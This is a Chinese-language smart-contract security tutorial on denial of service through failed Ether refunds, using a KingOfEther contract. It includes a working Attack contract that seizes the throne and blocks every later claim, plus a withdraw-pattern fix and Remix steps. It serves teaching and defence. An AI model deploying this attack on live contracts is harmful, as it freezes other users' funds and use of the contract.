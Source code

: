 # 72.Denial of Service
## 漏洞
攻击智能合约使其无法使用的方法有很多种。
我们在这里介绍的一种利用是通过让发送以太币的函数失败来实现拒绝服务。
以太坊智能合约通常包含发送以太币的函数，这些函数允许用户将以太币转移到其他地址。攻击者可以利用漏洞或故意构造恶意输入来使这些函数失败，从而阻止其他用户发送以太币或执行其他操作。
## KingOfEther
KingOfEther的目标是通过发送比前任国王更多的以太币来成为国王。前任国王将获得他发送的以太币的退款。
```solidity
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```
## 攻击合约Attack
1. 部署KingOfEther。
2. Alice通过发送1 以太币来调用claimThrone()函数成为了国王。
3. Bob通过发送2 以太币来调用claimThrone()函数成为了国王。Alice收到了1 以太币的退款。
4. 部署Attack合约并将KingOfEther的地址作为参数。
5. 调用attack函数并发送3 以太币。
6. 当前的国王是Attack合约，没有人可以成为新的国王。

发生了什么？
Attack成为了国王。所有试图夺取王位的新挑战都将被拒绝，因为Attack合约没有回退函数，拒绝接受在新国王产生之前从KingOfEther发送的以太币。
```solidity
contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 你还可以通过使用assert消耗所有的燃料来执行DOS攻击。
    // 即使调用合约没有检查调用是否成功，此攻击也会起作用。
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
## 预防性技术
防止这种情况的一种方法是允许用户撤回他们的以太币而不是发送它。
以下是一个例子。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract KingOfEther {
    address public king;
    uint public balance;
    mapping(address => uint) public balances;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        balances[king] += balance;

        balance = msg.value;
        king = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != king, "Current king cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

## remix验证
部署合约KingOfEther，1地址通过发送1 以太币来调用claimThrone()函数成为了国王。
![72-1.png](./img/72-1.png)
2地址通过发送2 以太币来调用claimThrone()函数成为了国王。1地址收到了1 以太币的退款。
![72-2.png](./img/72-2.png)
部署Attack合约并将KingOfEther的地址作为参数。调用attack函数并发送3 以太币。当前的国王是Attack合约。
![72-3.png](./img/72-3.png)
